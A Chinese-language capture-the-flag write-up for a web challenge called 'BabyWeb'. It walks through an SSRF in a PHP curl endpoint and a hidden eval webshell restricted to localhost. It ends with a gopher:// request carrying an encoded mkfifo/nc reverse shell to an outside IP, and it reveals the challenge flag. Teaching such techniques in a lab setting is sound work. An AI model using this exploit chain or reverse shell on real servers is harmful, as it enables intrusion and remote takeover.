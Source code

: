BabyWeb 600 points
================

题意
-------------

Just find one way to use webshell. : )

http://host:port

解题步骤
-------------

打开网址，看到的是：

```
<?php 
function curl($url){ 
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_URL, $url); 
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    $re = curl_exec($ch); 
    curl_close($ch); 
    return $re; 
} 
if(!empty($_GET['url'])){ 
    $url = $_GET['url']; 
    curl($url); 
}else{ 
    highlight_file(__FILE__);  
} 
```

显然是一个 `SSRF(Server Side Request Forge)` 了。用 `file:///` 协议随便看了些文件，没找到什么有用的信息。然后打开 `robots.txt` ：

```
User-agent: *
Disallow: /webshe11111111.php
```

根据这个地址，访问 `file:///var/www/html/webshe11111111.php` ：

```
<?php
$serverList = array(
    "127.0.0.1"
);
$ip = $_SERVER['REMOTE_ADDR'];
foreach ($serverList as $host) {
    if ($ip === $host) {
        if ((!empty($_POST['admin'])) and $_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else {
            die("You aren't admin!");
        }
    } else {
        die('This is webshell');
    }
}
```

所以我们需要：

1. 从本地 POST
2. 在 POST 中传 body
3. 通过 body 中 hacker 参数打开一个反弹 shell

这些不能通过 `http://` 完成，但是通过 `gopher://` 协议，我们可以手动构造一个 `HTTP POST` 请求。

```
转义前：
POST /webshe11111111.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
admin=h1admin&hacker=system("reverse_shell")

转义后：
curl -vvv "202.112.51.130:8016/?url=gopher%3A%2F%2F127%2E0%2E0%2E1%3A80%2F%5FPOST%2520%2Fwebshe11111111%2Ephp%2520HTTP%2F1%2E1%250D%250AHost%3A%2520127%2E0%2E0%2E1%250D%250AContent%2DType%3A%2520application%2Fx%2Dwww%2Dform%2Durlencoded%250D%250AContent%2DLength%3A%2520182%250D%250A%250D%250Aadmin%3Dh1admin%26hacker%3Dsystem%252528%252522rm%252520%25252Ftmp%25252Ff%25253Bmkfifo%252520%25252Ftmp%25252Ff%25253Bcat%252520%25252Ftmp%25252Ff%25257C%25252Fbin%25252Fsh%252520%25252Di%2525202%25253E%2525261%25257Cnc%252520123%25252E123%25252E123%25252E123%2525201233%252520%25253E%25252Ftmp%25252Ff%252522%252529%25253B"
```

就可以拿到反弹的 `shell` 了，读取 `fl11111aaaaaggggg.php` 的内容：

```
<?php $flag="THUCTF{Th1s_EaSy_sSRF}";?>
```